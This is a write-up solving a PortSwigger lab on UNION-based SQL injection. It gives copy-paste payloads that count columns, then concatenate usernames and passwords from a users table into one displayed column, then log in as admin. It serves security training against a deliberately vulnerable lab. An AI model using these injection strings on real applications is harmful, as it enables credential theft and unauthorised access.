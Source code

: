 <img width="700" height="350" alt="Screenshot_19" src="https://github.com/user-attachments/assets/9054f57b-137c-4de4-812f-281aa183d756" />

# 08 - Lab: SQL injection UNION attack — Retrieving multiple values in a single column

🔗 **Lab link**: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

---

## 📝 Lab goal
Use a `UNION`-based SQL injection to retrieve **both username and password** even though the application only displays **one** text column. The trick is to match column counts/types and concatenate values into that single text column.

---

## ✅ Solution (copy-paste payloads & steps)

### 1) Find the number of columns
```sql
' UNION SELECT NULL,NULL--
```
### 2) Test type-compatibility / extract one column
If username and password produce a type error when returned directly, keep NULL in columns that must preserve their original types and put a text column in the displayable position:
- ' UNION SELECT NULL, password FROM users--
### 3) Concatenate username and password into the single text column
Use the DB concatenation operator the lab uses (Oracle: ||, MySQL/Postgres: CONCAT() or username||'~'||password depending on DB). In this lab the double-pipe operator works:
- ' UNION SELECT NULL, username||'~'||password FROM users--
### 4) Use retrieved admin creds
Copy the admin username and password from the concatenated results and log in via the app’s login page to complete the lab.
